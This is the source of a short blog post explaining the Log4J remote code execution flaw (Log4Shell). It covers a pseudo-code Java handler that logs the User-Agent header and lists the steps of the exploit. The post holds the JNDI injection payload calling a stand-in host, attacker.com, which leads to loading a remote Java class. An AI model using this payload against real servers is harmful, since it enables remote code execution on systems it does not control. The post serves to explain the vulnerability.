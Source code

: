 ```yaml
---
layout: post
title:  "Log4J Remote Code Execution"
date:   2021-12-10 19:56:00 +0800
---
```


# [Reference](https://www.lunasec.io/docs/blog/log4j-zero-day/)

# Affected Apache log4j Version
2.0 <= Apache log4j <= 2.14.1

{% highlight Java %}
import java.io.*;
import java.sql.SQLException;
import java.util.*;

public class VulnerableLog4jExampleHandler implements HttpHandler {

  static Logger log = Logger.getLogger(log4jExample.class.getName());

  /**
   * A simple HTTP endpoint that reads the request's User Agent and logs it back.
   * This is basically pseudo-code to explain the vulnerability, and not a full example.
   * @param he HTTP Request Object
   */
  public void handle(HttpExchange he) throws IOException {
    string userAgent = he.getRequestHeader("user-agent");
    
    // This line triggers the RCE by logging the attacker-controlled HTTP User Agent header.
    // The attacker can set their User-Agent header to: ${jndi:ldap://attacker.com/a}
    log.info("Request User Agent:" + userAgent);

    String response = "<h1>Hello There, " + userAgent + "!</h1>";
    he.sendResponseHeaders(200, response.length());
    OutputStream os = he.getResponseBody();
    os.write(response.getBytes());
    os.close();
  }
}
{% endhighlight %}

# Exploit Steps​
* Data from the User gets sent to the server (via any protocol),
* The server logs the data in the request, containing the malicious payload: ${jndi:ldap://attacker.com/a} (where attacker.com is an attacker controlled server),
* The log4j vulnerability is triggered by this payload and the server makes a request to attacker.com via "Java Naming and Directory Interface" (JNDI),
* This response contains a path to a remote Java class file (ex. http://second-stage.attacker.com/Exploit.class) which is injected into the server process,
* This injected payload triggers a second stage, and allows an attacker to execute arbitrary code.
